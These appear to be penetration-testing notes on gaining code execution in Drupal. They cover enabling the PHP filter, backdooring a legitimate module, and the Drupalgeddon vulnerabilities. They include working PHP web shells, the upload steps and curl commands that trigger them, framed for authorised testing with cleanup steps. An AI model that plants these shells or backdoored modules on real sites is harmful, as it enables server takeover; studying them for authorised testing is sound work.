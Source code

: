 ## Drupal – Attacking
### Objective

- Achieve remote code execution via:    
    - PHP filter module
    - Backdoored module upload        
    - Known exploits (Drupalgeddon 1/2/3)
- Enumerate internal network, privilege escalate, or pivot further    

## 1. RCE via PHP Filter Module

### Drupal 7.x (PHP filter already available)

#### Steps:

1. Enable PHP Filter Module:

```
/admin/modules → check "PHP filter" → Save Configuration
```

2. Create Content:

```
/node/add → Basic Page
```

3. Insert Shell:

```php
<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>
```

- Set Text format to `PHP code`        
- Save, e.g. URL: `/node/3`

4. Command Execution:
   
```bash
curl -s http://<target>/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id
```
#### Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Drupal 8.x and above

- PHP filter not available by default    
- Requires manual module installation (get client permission)
#### Install PHP Filter:

```bash
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

1. Navigate to:

```
/admin/reports/updates/install or /admin/modules/install
```

2. Upload module archive → Install

3. Enable PHP filter and repeat same page creation + RCE as in Drupal 7    
## 2. RCE via Backdoored Module Upload
### Backdoor Setup
#### Download Legit Module:

```bash
wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
#### Add Web Shell:

```php
<?php system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']); ?>
```
#### Add .htaccess:

```apache
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
#### Copy to Module Directory:

```bash
mv shell.php .htaccess captcha/
tar cvf captcha.tar.gz captcha/
```
### Upload via Admin Panel:

- Go to: `/admin/modules/install`    
- Upload `captcha.tar.gz`
- Install module
### Trigger Webshell:

```bash
curl -s http://<target>/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
#### Output:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## 3. Known Exploits – Drupalgeddon

### 3.1 Drupalgeddon (CVE-2014-3704)

- Vuln Type: Pre-auth SQLi → create admin or upload form    
- Affected: Drupal 7.0 – 7.31 (Fixed in 7.32)
### 3.2 Drupalgeddon2 (CVE-2018-7600)

- Vuln Type: RCE via unsanitized form input    
- Affected: < 7.58 and < 8.5.1
- Exploitable unauthenticated
### 3.3 Drupalgeddon3 (CVE-2018-7602)

- Vuln Type: RCE via Form API bypass    
- Affected: Many 7.x and 8.x versions
- Requires some interaction/access level    

Exploitation steps for these will follow in the next module as noted.
## Cleanup & Reporting

- Delete shells, uploaded modules, created nodes
- Disable PHP filter (if used)
- Log all artifacts:    
    - File names, MD5/SHA hashes
    - Paths, timestamps
    - Accessed URLs
- Document user accounts used for access (e.g., admin)  
### Summary of Techniques

|Method|Description|Priv Req|
|---|---|---|
|PHP Filter (7.x)|Enable module, create node with PHP shell|Admin|
|PHP Filter (8.x)|Install module manually then exploit|Admin|
|Backdoored Module|Upload tar.gz with shell + .htaccess|Admin|
|Drupalgeddon 1/2/3|SQLi / RCE / Form API abuse|Varies (some unauth)|
# Tags
> #Exploitation #Application-Exploitation #Drupal